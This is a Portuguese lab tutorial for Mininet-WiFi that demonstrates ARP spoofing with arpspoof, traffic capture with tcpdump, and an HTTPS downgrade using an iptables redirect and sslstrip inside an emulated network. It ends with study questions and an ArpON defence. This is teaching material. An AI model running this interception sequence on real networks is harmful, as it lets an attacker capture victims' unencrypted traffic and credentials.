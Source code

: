 ************
ARP Spoofing
************
 
ARP Spoofing e Downgrade de Protocolo
-------------

.. Note::

    **Nesta demo você irá aprender como realizar o ataque de ARP Spoofing e também como realizar o downgrade de protocolo:** 

    **Requisitos:** 
    
    - Mininet-WiFi - https://github.com/intrig-unicamp/mininet-wifi
    - dsniff
    - arpon
    - sslstrip
    - curl
    
    **A VM disponível na página do código-fonte do Mininet-WiFi possui todos os requisitos necessários para reprodução deste documento**

Antes de tudo você precisa identificar a topologia de rede que será gerada através do código abaixo:

.. code:: python

    #!/usr/bin/python

    '''@author: Ramon Fontes
       @email: ramon.fontes@imd.ufrn.br'''

    from mininet.log import setLogLevel, info
    from mn_wifi.node import OVSKernelAP
    from mn_wifi.link import wmediumd
    from mn_wifi.cli import CLI
    from mn_wifi.net import Mininet_wifi


    def topology():
        "Create a network."
        net = Mininet_wifi()

        info("*** Creating nodes\n")
        ap1 = net.addAccessPoint('ap1', ssid='new-ssid', mode='g',
                                 channel='1', position='10,10,0',
                                 failMode="standalone")
        sta1 = net.addStation('sta1', position='10,20,0')
        sta2 = net.addStation('sta2', position='10,30,0')

        info("*** Configuring wifi nodes\n")
        net.configureWifiNodes()

        info("*** Starting network\n")
        net.build()
        net.addNAT().configDefault()
        ap1.start([])

        sta2.cmd('echo 1 > /proc/sys/net/ipv4/ip_forward')

        info("*** Running CLI\n")
        CLI(net)

        info("*** Stopping network\n")
        net.stop()


    if __name__ == '__main__':
        setLogLevel('info')
        topology()


Neste tutorial, vamos simular os passos ilustrados na figura de forma a mostrar na prática como ocorre o ataque de ARP Spoofing. Para tanto, vamos considerar executar o script acima. 

Considerando que o nome do arquivo seja `arp.py` você deve executá-lo da seguinte forma:

.. code:: console

    sudo python arp.py
    

Em seguida, faremos uma tentativa de ping a partir de `sta1` para o endereço 8.8.8.8.

.. code:: console

    mininet-wifi> sta1 ping -c1 8.8.8.8

    PING 8.8.8.8 (8.8.8.8) 56(84) bytes of data.
    64 bytes from 8.8.8.8: icmp_seq=1 ttl=118 time=68.8 ms
    --- 8.8.8.8 ping statistics ---
    1 packets transmitted, 1 received, 0% packet loss, time 0ms
    rtt min/avg/max/mdev = 68.893/68.893/68.893/0.000 ms


Como é possível perceber o ping foi realizado com sucesso. Agora, vamos verificar a tabela ARP de `sta1`. Na tabela deverá constar o endereço IP e também o endereço MAC do gateway padrão de `sta1`.


.. code:: console

    mininet-wifi> sta1 arp -a
    _gateway (10.0.0.3) at 0a:1e:54:0e:66:96 [ether] on sta1-wlan0


Então, vamos simular o ataque de ARP Spoofing e fazer com que `sta1` entenda que o seu gateway na verdade é `sta2`. Primeiro, abra 2 (dois) terminais para `sta2`.

.. code:: console

    mininet-wifi> xterm sta2 sta2


Então, no terminal de `sta2` execute o arpspoof, conforme abaixo.

.. code:: console

    sta2# arpspoof -i sta2-wlan0 -t 10.0.0.1 10.0.0.3


O comando acima induz 10.0.0.1, que é a vítima, a entender que 10.0.0.2, ou seja, `sta2`, representa o endereço do gateway padrão. 

Então, após alguns segundos verificamos novamente a tabela ARP de `sta1`.

.. code:: console

    mininet-wifi> sta1 arp -a
    _gateway (10.0.0.3) at 02:00:00:00:01:00 [ether] on sta1-wlan0
    ? (10.0.0.2) at 02:00:00:00:01:00 [ether] on sta1-wlan0


Aqui, já podemos notar que o endereço MAC do gateway padrão já não é mais o mesmo do identificado anteriormente. 

Agora, realizamos um novo ping de `sta1` para o endereço público 8.8.8.8, ao mesmo tempo em que utilizamos o tcpdump no outro terminal de `sta2` para verificar se `sta2` está recebendo todo tráfego enviado gratuitamente pela vítima.

.. code:: console

    sta2# tcpdump -i sta2-wlan0
    20:30:34.970402 IP 10.0.0.1 > alpha-Inspiron: ICMP echo request, id 12251,seq 8, length 64
    20:30:34.971552 IP alpha-Inspiron > 10.0.0.1: ICMP echo reply, id 12251, seq 8, length 64
    20:30:35.430387 ARP, Reply _gateway is-at 02:00:00:00:01:00 (oui Unknown), length 28
    20:30:35.972565 IP 10.0.0.1 > alpha-Inspiron: ICMP echo request, id 12251,seq 9, length 64
    20:30:35.973722 IP alpha-Inspiron > 10.0.0.1: ICMP echo reply, id 12251, seq 9, length 64
    20:30:36.973743 IP 10.0.0.1 > alpha-Inspiron: ICMP echo request, id 12251, seq 10, length 64
    20:30:36.974884 IP alpha-Inspiron > 10.0.0.1: ICMP echo reply, id 12251, seq 10, length 64


.. code:: console

    mininet-wifi> sta1 ping -c10 8.8.8.8


Após alguns pacotes enviados por `sta1` é possível notar que `sta2` passou a receber os pacotes enviados por `sta1`, pois `sta1` passou a entender que `sta2` seria o verdadeiro gateway padrão. A partir deste momento, `sta2`, o atacante, pode inclusive utilizar de simples ferramentas como `sslstrip` para realizar ataques em cima do protocolo HTTPS (Hyper Text Transfer Protocol Secure) via downgrade de protocolo.


Para interceptar o tráfego não criptografado, é necessário fazer o downgrade da conexão da vítima de HTTPS para HTTP. Isso é possível através do `sslstrip`. Primeiro, é necessário redirecionar o tráfego de saída na porta 80 para 8080 e, em seguida, iniciar o `sslstrip` na porta 8080.

.. code:: console

    mininet-wifi> xterm sta2


Já no terminal aberto de `sta2` digite:

.. code:: console

    sta2# iptables -t nat -p tcp -A PREROUTING --destination-port 80 -j REDIRECT --to-port 8080


E depois:

.. code:: console

    sta2# sslstrip -l 8080

    sslstrip 0.9 by Moxie Marlinspike running...


Na máquina da vítima, use o `curl` para enviar uma solicitação GET para http://globo.com.

.. Note::

   Caso obter algum erro na etapa abaixo, tente realizar um ping para globo.com a partir de sta1. Se não houver êxito no ping adicione entrada de servidor DNS em /etc/resolv.conf também a partir de sta1.


.. code:: console

    mininet-wifi> sta1 curl -vvv http://globo.com
    *   Trying 186.192.90.12:80...
    * TCP_NODELAY set
    * Connected to globo.com (186.192.90.12) port 80 (#0)
    > GET / HTTP/1.1
    > Host: globo.com
    > User-Agent: curl/7.68.0
    > Accept: */*
    > 
    * Mark bundle as not supporting multiuse
    < HTTP/1.1 301 Moved Permanently
    < Date: Wed, 03 Mar 2021 00:03:21 GMT
    < Content-Type: text/html
    < Content-Length: 178
    < Connection: keep-alive
    < Cache-Control: max-age=600
    < Location: http://www.globo.com/
    < 
    <html>
    <head><title>301 Moved Permanently</title></head>
    <body bgcolor="white">
    <center><h1>301 Moved Permanently</h1></center>
    <hr><center>nginx</center>
    </body>
    </html>
    * Connection #0 to host globo.com left intact
    

Como é possível notar, a solicitação foi redirecionada para http://www.globo.com/. Outro GET nesta nova URL irá retornar o conteúdo da página não criptografado. 

O ataque agora está completo: podemos visualizar o tráfego não criptografado entre a vítima e o site vulnerável usando HTTPS. No diretório onde você executou o sslstrip você também poderá observar um arquivo chamado de sslstrip.log. Este arquivo possui todas as informações capturadas pelo sslstrip.


.. Warning::

    **Perguntas a serem respondidas**
    
    1. Comente sobre o ataque de downgrade de protocolo. Diga  como ele funciona.
    2. O que seria o HTTP Strict Transport Security (HSTS) e como ele seria útil no cenário prático realizado acima?
    3. Anexe duas imagens do wireshark onde, do lado do atacante, mostre requisições de tráfego criptografado e também requisições de tráfego descriptografado.


Como evitar o ARP Spoofing
-------------

O ataque de ARP Spoofing pode ser evitado com o uso de ferramentas como ARP handler inspection (ArpON). Por exemplo, você pode executar o ArpON a partir de `sta1`, conforme abaixo:

.. code:: console

    mininet-wifi> xterm sta1
    arpon -D -i sta1-wlan0


Caso houver um ataque em execução será possível observá-lo após executar o arpon, conforme ilustrado abaixo:


.. code:: console

    arpon -D -i sta1-wlan0
    Oct 30 10:01:41 [INFO] Start DARPI on sta1-wlan0
    Oct 30 10:01:41 [INFO] CLEAN, 10.0.0.3 was at 52:1e:e8:62:58:11 on sta1-wlan0
    Oct 30 10:01:53 [INFO] DENY, 10.0.0.3 was at 2:0:0:0:1:0 on sta1-wlan0
    Oct 30 10:01:53 [INFO] ALLOW, 10.0.0.3 is at 52:1e:e8:62:58:11 on sta1-wlan0
    Oct 30 10:01:55 [INFO] DENY, 10.0.0.3 was at 2:0:0:0:1:0 on sta1-wlan0
